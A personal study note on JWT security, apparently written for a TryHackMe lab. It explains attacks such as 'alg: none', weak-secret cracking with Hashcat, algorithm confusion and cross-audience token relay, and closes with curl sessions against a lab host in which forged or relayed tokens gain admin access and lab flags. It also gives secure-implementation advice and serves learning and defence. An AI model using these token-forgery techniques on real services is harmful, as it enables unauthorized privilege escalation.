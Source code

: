 # 🔑  JSON Web Tokens (JWT) Security

## 📌 What are JWTs?

- **JWTs (JSON Web Tokens)** = stateless tokens for authentication/authorization.
    
- Commonly sent in:
    
    - `Authorization: Bearer <JWT>` header.
        
    - Sometimes in cookies, but less common for APIs.
        
- Structure: `header.payload.signature`
    
    - **Header** → type & algorithm (`HS256`, `RS256`, `none`).
        
    - **Payload** → claims (`username`, `role`, `exp`, etc).
        
    - **Signature** → cryptographic check for integrity/authenticity.
        

---

## 🧪 Tools for Analysis

- **JWT.io** → online decoder, modify claims, test signature.
    
- **CyberChef** → decode/encode Base64Url, manipulate `alg` fields.
    
- **Burp Suite (Extender plugins)** → intercept, decode, and fuzz JWTs automatically.
    
- **Hashcat / John the Ripper** → brute force weak symmetric secrets (`-m 16500`).
    

---

## ⚠️ Signature & Algorithm Risks

- **None algorithm** → bypass signature verification.
    
- **Weak HS256 secrets** → brute forceable.
    
- **Algorithm Confusion** → RS256 (asymmetric) downgraded to HS256 (symmetric) → use public key as secret.
    
- **Not verifying signatures** → payload freely editable.
    

💡 **Testing tip**: Always check if the backend **actually verifies the signature** or just decodes the token.

---

## 🧪 Methodology: Testing JWTs

1. **Locate the JWT**
    
    - Look in `Authorization: Bearer ...` headers, cookies, or URL params.
        
2. **Decode It**
    
    - Use `jwt.io` or CyberChef to view `header` + `payload`.
        
    - Look for: `alg`, `exp`, `aud`, `role`, `admin`, etc.
        
3. **Check Payload**
    
    - Are sensitive values exposed? (password hashes, flags, IPs).
        
    - Are privilege claims (`admin: 1`) modifiable?
        
4. **Check Algorithm**
    
    - If `alg = none` → try removing signature.
        
    - If `RS256` → test downgrade to `HS256` with public key.
        
    - If `HS256` → test weak secret cracking (Hashcat).
        
5. **Test Signature Validation**
    
    - Remove/alter signature → does API still accept token?
        
    - Modify claims (e.g., `admin=1`) → replay → check if backend honors it.
        
6. **Check Expiration & Lifetime**
    
    - Look for missing/huge `exp`.
        
    - Try expired token → does it still work?
        
7. **Check Audience Claim**
    
    - If multiple apps → see if token from AppA works on AppB (Cross-Service Relay).
        

---

## 🛡️ Secure Implementation

- Never use `alg: none`.
    
- Enforce strong algs (`HS256`, `RS256`) consistently.
    
- Use **long, random secrets** for HS256.
    
- Don’t expose sensitive info in payload.
    
- Validate `exp`, `aud`, and all critical claims.
    
- Short token lifetimes + refresh tokens.
    
- Central auth service but verify claims per app.
    

---

## 📌 Key Takeaways

- JWTs are powerful but fragile if misconfigured.
    
- Main attacker workflow = **decode → modify claims → bypass signature/algorithm → replay**.
    
- Tools like **jwt.io + CyberChef** make claim manipulation trivial.
    
- Always test: **signature validation, algorithms, expiration, and audience enforcement**.
    

---

## TryHackMe Room examples

#### example 4
![](../../../Pasted%20image%2020250820233239.png)

#### Example 5

```
➜  ~ curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password5" }' http://10.10.37.9/api/v1.0/example5
{
  "public_key": "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHSoarRoLvgAk4O41RE0w6lj2e7TDTbFk62WvIdJFo/aSLX/x9oc3PDqJ0Qu1x06/8PubQbCSLfWUyM7Dk0+irzb/VpWAurSh+hUvqQCkHmH9mrWpMqs5/L+rluglPEPhFwdL5yWk5kS7rZMZz7YaoYXwI7Ug4Es4iYbf6+UV0sudGwc3HrQ5uGUfOpmixUO0ZgTUWnrfMUpy2dFbZp7puQS6T8b5EJPpLY+iojMb/rbPB34NrvJKU1F84tfvY8xtg3HndTNPyNWp7EOsujKZIxKF5/RdW+Qf9jjBMvsbjfCo0LiNVjpotiLPVuslsEWun+LogxR+fxLiUehSBb8ip",
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.kR4DjBkwFE9dzPNeiboHqkPhs52QQgaHcC2_UGCtJ3qo2uY-vANIC6qicdsfT37McWYauzm92xflspmSVvrvwXdC2DAL9blz3YRfUOcXJT03fVM7nGp8E7uWSBy9UESLQ6PBZ_c_dTUJhWg35K3d8Jao2czC0JGN3EQxhcCGtxJ1R7T9tzBMaqW-IRXfTCq3BOxVVF66ePEfvG7gdyjAnWrQFktRBIhU4LoYwem3UZ7PolFf0v2i6jpnRJzMpqd2c9oMHOjhCZpy_yJNl-1F_UBbAF1L-pn6SHBOFdIFt_IasJDVPr1Ybv75M26o8OBwUJ1KK_rwX41y5BCNGcks9Q"
}
```
![](../../../Pasted%20image%2020250821201923.png)

```

➜  ~ curl -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjEsImlhdCI6MTc1NTgwMzgxOX0.Ih7vuBSQcYWwsjHyNN5ymo43PnNfbn2RikP7B3EmGNw' http://10.10.37.9/api/v1.0/example5\?username\=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{f592dfe2-ec65-4514-a135-70ba358f22c4}"
}

```

#### Example 7
``` bash
➜  ~ curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password7", "application" : "appA" }' http://10.10.37.9/api/v1.0/example7
{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MCwiYXVkIjoiYXBwQSJ9.sl-84cMLYjxsD7SCySnnv3J9AMII9NKgz0-0vcak9t4"
}
➜  ~ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MCwiYXVkIjoiYXBwQSJ9.sl-84cMLYjxsD7SCySnnv3J9AMII9NKgz0-0vcak9t4' http://10.10.37.9/api/v1.0/example7_appA\?username\=admin
{
  "message": "Unauthorized, you are not an admin"
}
➜  ~ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MCwiYXVkIjoiYXBwQSJ9.sl-84cMLYjxsD7SCySnnv3J9AMII9NKgz0-0vcak9t4' http://10.10.37.9/api/v1.0/example7_appB\?username\=admin
{
  "message": "JWT could not be read: Invalid audience"
}
➜  ~ curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password7", "application" : "appB" }' http://10.10.37.9/api/v1.0/example7
{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MSwiYXVkIjoiYXBwQiJ9.jrTcVTGY9VIo-a-tYq_hvRTfnB4dMi_7j98Xvm-xb6o"
}
➜  ~ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MSwiYXVkIjoiYXBwQiJ9.jrTcVTGY9VIo-a-tYq_hvRTfnB4dMi_7j98Xvm-xb6o' http://10.10.37.9/api/v1.0/example7_appA\?username\=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{f0d34fe1-2ba1-44d4-bae7-99bd555a4128}"
}
➜  ~ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MSwiYXVkIjoiYXBwQiJ9.jrTcVTGY9VIo-a-tYq_hvRTfnB4dMi_7j98Xvm-xb6o' http://10.10.37.9/api/v1.0/example7_appB\?username\=admin
{
  "message": "Welcome admin, you are an admin, but there is no flag for you here"
}

```